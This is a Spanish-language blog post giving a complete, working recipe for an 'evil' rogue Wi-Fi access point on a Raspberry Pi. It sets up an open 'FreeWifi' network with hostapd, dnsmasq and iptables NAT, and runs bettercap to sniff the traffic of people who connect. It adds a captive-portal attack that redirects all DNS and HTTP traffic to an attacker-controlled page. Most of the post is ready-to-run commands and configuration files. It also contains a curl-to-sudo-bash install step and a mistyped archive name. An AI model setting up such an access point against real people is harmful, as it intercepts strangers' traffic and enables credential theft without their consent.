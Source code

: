 ```yaml
---
layout: post
title: Evil Access Point
---
```


Evil Access Point with Raspberry Pi

![_config.yml]({{ site.baseurl }}/images/20160711.jpeg)


# Materiales
* Raspberry Pi
* Raspbian
* TL-WN722N (tarjeta de red tp-link)


# Instalando las herramientas
```
sudo apt-get update && sudo apt-get dist-upgrade -y
sudo apt-get install -y hostapd dnsmasq wireless-tools iw
```

### Instalando bettercap
```
sudo su
apt-get install curl ruby-dev libpcap-dev -y
gpg2 --keyserver hkp://keys.gnupg.net --recv-keys 409B6B1796C275462A1703113804BB82D39DC0E3
curl -sSL https://get.rvm.io | sudo bash -s stable
echo "source /usr/local/rvm/scripts/rvm" >> ~/.bashrc
source /usr/local/rvm/scripts/rvm
rvm install ruby-2.3.3
gem install bettercap
```

# Configuracion
Para trabajar recomiendo crear una carpeta con algun nombre caracteristico como `fakeap`. Luego, crear 3 archivos de configuracion usando algun editor de texto (dentro de la carpeta creada). En el caso de iptables, hay que darle permisos de ejecucion `chmod +x iptables` Suponiendo que trabajaremos con `eth0` y `wlan0`

### iptables
```
ifconfig wlan0 10.0.0.1/24 up
iptables -t nat -F
iptables -F
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
iptables -A FORWARD -i wlan0 -o eth0 -j ACCEPT
echo '1' > /proc/sys/net/ipv4/ip_forward
```

### dnsmasq.conf
```
interface=wlan0
dhcp-range=10.0.0.10,10.0.0.250,12h
dhcp-option=3,10.0.0.1
dhcp-option=6,10.0.0.1
server=8.8.8.8
log-queries
log-dhcp
```

### hostapd.conf
```
interface=wlan0
driver=nl80211
ssid=FreeWifi
channel=6
```

# Automatizando la configuracion
Creamos un archivo con algun nombre caracteristico, por ejemplo `initconfig` luego, darle los correspondientes permisos de ejecucion `chmod +x initconfig`

```bash
#!/bin/bash

# Configuraciones iniciales
upstream=eth0
phy=wlan0

# levantando interfaz
ifconfig $phy 10.0.0.1/24 up

# configurando iptables
iptables -t nat -F
iptables -F
iptables -t nat -A POSTROUTING -o $upstream -j MASQUERADE
iptables -A FORWARD -i $phy -o $upstream -j ACCEPT
echo '1' > /proc/sys/net/ipv4/ip_forward

# Configurando dnsmasq
cat <<EOF > dnsmasq.conf
interface=$phy
dhcp-range=10.0.0.10,10.0.0.250,12h
dhcp-option=3,10.0.0.1
dhcp-option=6,10.0.0.1
server=8.8.8.8
log-queries
log-dhcp
EOF

# Configurando hostapd
cat <<EOF > hostapd.conf
interface=$phy
driver=nl80211
ssid=FreeWifi
channel=6
EOF
```

# Evil Access Point UP!
Ahora que tenemos las configuraciones hechas, nos toca levantar el Access Point. Para eso ejecutaremos en cada terminal distinta lo siguiente:

```
sudo ./initconfig

sudo dnsmasq -C dnsmasq.conf -d

sudo hostapd hostapd.conf
```

### Bettercap
Iniciamos el sniffer (podemos ocupar cualquiera mientras realice sniffing pasivo, pero esta vez elegí bettercap)

```
sudo su
bettercap -I wlan0 --no-discovery --no-spoofing -X
```

# Revisando la red
Para poder ver quien esta en la red interna se recomienda descargar fing desde la página oficial: [https://www.fing.io/download/](https://www.fing.io/download/){:target="_blank"}

```
wget https://www.fing.io/wp-content/uploads/2016/10/overlook-fing-3.0.deb
sudo dpkg -i overlook-fing-3.0.deb
fing -n 10.0.0.1/24
```

# Portal cautivo
Para realizar un ataque de portal cautivo no es necesario tener conexion a internet, solo basta levantar el Fake Access Point, pero cambiando las reglas. La idea de este ataque es dejar arriba el servicio de apache con alguna pagina a conveniencia.

```bash
iptables -F
iptables -F -t nat
#iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
#iptables -A FORWARD -i $phy -o eth0 -j ACCEPT
iptables -t nat -A PREROUTING -i wlan0 -p udp --dport 53 -j DNAT --to 10.0.0.1
iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination 10.0.0.1
iptables -P FORWARD DROP
```

# En caso de ocupar 2 wlans
Muchas veces no tenemos acceso por ethernet, por lo que estamos obligados a usar wifi para recibir `wlan0` y emitir `wlan1` señal. Para estos casos las configuraciones varian un poco. (Asumiendo de que tambien hay que modificar las configuraciones anteriores como `iptables`, `dnsmasq.conf` y `hostapd.conf` con sus interfaces respectivos)

### Raspbian
Con un editor de texto hay que modificar el archivo `/etc/network/interfaces`, comentando las lineas que tengan relación con la interfaz
 que ocuparás para crear el Evil Access Point.

```
# interfaces(5) file used by ifup(8) and ifdown(8)

# Please note that this file is written to be used with dhcpcd
# For static IP, consult /etc/dhcpcd.conf and 'man dhcpcd.conf'

# Include files from /etc/network/interfaces.d:
source-directory /etc/network/interfaces.d

auto lo
iface lo inet loopback

iface eth0 inet manual

allow-hotplug wlan0
iface wlan0 inet manual
    wpa-conf /etc/wpa_supplicant/wpa_supplicant.conf

#allow-hotplug wlan1
#iface wlan1 inet manual
    #wpa-conf /etc/wpa_supplicant/wpa_supplicant.conf
```

Recomiendo reiniciar para que las configuraciones se apliquen

```
sudo reboot
```


### network-manager
Se tiene que agregar las 2 ultimas lineas del archivo `/etc/NetworkManager/NetworkManager.conf`, para evitar el conflicto entre la interfaz de red y network-manager

```
[main]
plugins=ifupdown,keyfile

[ifupdown]
managed=false

[keyfile]
unmanaged-devices=interface-name:wlan1
```

Ahora necesitamos reiniciar el servicio de network-manager

```
sudo service network-manager restart
```

# Conectarse por 3G
```
sudo apt-get install ppp
sudo wget "http://downloads.sourceforge.net/project/vim-n4n0/sakis3g.tar.gz?r=http%3A%2F%2Fsourceforge.net%2Fprojects%2Fvim-n4n0%2Ffiles%2F&ts=1363537696&use_mirror=tene~t" -O sakis3g.tar.gz
sudo tar -xzvf sakis36.tar.gz
sudo apt-get install sg3-utils
sudo chmod +x sakis3g
sudo ./sakis3g --interactive
```
